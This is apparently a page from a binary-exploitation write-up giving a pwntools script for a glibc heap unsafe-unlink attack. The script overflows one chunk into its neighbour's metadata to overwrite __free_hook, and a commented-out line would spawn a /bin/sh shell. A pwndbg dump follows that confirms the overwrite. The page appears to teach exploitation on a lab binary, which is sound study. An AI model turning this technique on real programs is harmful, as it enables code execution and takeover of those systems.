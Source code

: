 ```python
chunk_A = malloc(0x88)  # idx 0
chunk_B = malloc(0x88)  # idx 1

log.success(f'chunk_A: {chunk_A}')
log.success(f'chunk_B: {chunk_B}')

# Make chunk_A valid chunk
"""
0x555555603000	0x0000000000000000	0x0000000000000091	
0x555555603010	0x00000000deadbeef	0x00000000cafebabe
"""

# payload = p64(0xdeadbeef) # fd
# payload += p64(0xcafebabe) # bk

"""
- FD->bk = BK → Write 0xcafebabe to memory address 0xdeadbeef + 0x18
- BK->fd = FD → Write 0xdeadbeef to memory address 0xcafebabe + 0x10
"""
free_hook = libc.sym.__free_hook
log.info(f'__free_hook: {hex(free_hook)}')

payload = p64(free_hook - 0x18) # fd
payload += p64(heap + 0x20) # bk
payload += p64(0xdeadbeef) 
# payload += asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))

payload += p8(0) * (0x80 - len(payload)) # padding
payload += p64(0x90) # prev_size
payload += p64(0x90) # size (prev_inuse = 0)

edit(chunk_A, payload) # overflow chunk_A into chunk_B's metadata

free(chunk_B)  # trigger unsafe unlink
# free(chunk_A)  # overwrite __free_hook with shellcode address

io.interactive()
```

Before freeing **chunk_A**, we can verify that our unsafe unlink successfully overwrote `__free_hook`:

```bash
pwndbg> p __free_hook 
$1 = (void (*)(void *, const void *)) 0x555555603020
pwndbg> dq 0x555555603020
0000555555603020     00000000deadbeef 0000000000000000
0000555555603030     00007ffff7b9b790 0000000000000000
#...

```
